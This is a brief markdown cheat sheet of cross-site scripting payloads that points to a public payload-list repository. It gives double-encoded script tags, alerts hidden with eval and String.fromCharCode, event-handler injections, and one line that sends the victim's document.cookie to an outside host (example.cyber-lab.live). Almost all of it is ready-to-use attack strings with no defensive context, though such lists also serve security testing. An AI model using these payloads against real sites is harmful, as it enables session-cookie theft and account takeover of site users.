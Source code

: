 <h1>XSS</h1>
https://github.com/payloadbox/xss-payload-list 
<h3>XSS double encoding</h3>
* Double encoded <script>alert('XSS')</script>

%253Cscript%253Ealert('XSS')%253C%252Fscript%253E

<h3>Alert Encoded<h3>
';eval(String.fromCharCode(97,108,101,114,116,40,39,115,97,103,105,111,108,115,104,97,110,115,107,121,39,41));b='

javascript:alert(String.fromCharCode(88,115,115,45,66,121,45,67,111,109,115,101,99))

javascript:document.location='https://example.cyber-lab.live/c?='+document.cookie;

<xss style=\"animation-name:x\" onanimationend=\"alert(1)\">

<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
